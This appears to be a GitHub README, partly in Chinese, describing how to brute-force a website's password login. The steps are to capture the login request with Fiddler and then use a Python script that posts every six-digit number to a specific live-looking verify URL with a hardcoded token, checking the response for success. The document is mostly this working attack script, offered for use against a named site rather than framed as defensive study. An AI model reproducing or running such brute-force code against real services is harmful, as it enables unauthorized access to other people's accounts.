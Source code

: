 # Main Steps
* Using Fiddler to capture the URL and th post pasckage when user logging in (Using whatever account names and passwords).
    <p align="center" >
        <img src="./Pictures/url.png", width='800'>
    </p>
    <p align="center" >
        <img src="./Pictures/fiddler.png", width='800'>
    </p>
* In python, fill the data in a form of the dictionary.
* Post the request
* From key words of the received messages from website, figure out whether logging succesfully.

# Reference
* [Two ways to post requests using python.](https://blog.csdn.net/qq_29113041/article/details/79084544)  
* [python 暴力破解密码脚本](https://www.cnblogs.com/cocoajin/p/3991227.html)
* [输入密码经过本地加密怎么办？](https://zhuanlan.zhihu.com/p/57375111)

# Example Code
#!/usr/bin/python 在windows下没用，运行程序还是要用类似`python main.py`的命令
```python
#!/usr/bin/python   
# -*- coding: utf-8 -*-

import urllib.request

def tryLogin(pwd):

    data = {
        '_token':'tLjSpPwe8E8XtGHuKbDHCwwu1T28l6P7',
        'password': pwd
    }

    r = urllib.request.urlopen(
            url ='http://1003.ykzm.sxehny.cn/verify/1003',
            data = urllib.parse.urlencode(data).encode(encoding='UTF8')
    )
    
    response = str(r.read(), encoding = "utf-8")
    isFind = False
    if "false" in response: # 这里是对应网站的密码验证逻辑
        print('登陆失败',pwd)
        isFind = False
    else:
        print('登陆成功','password = ',pwd)
        isFind = True   
    return isFind 


# 暴力破解
for i in range(1000000):
    input = str(i).zfill(6)
    tryLogin(input)
```
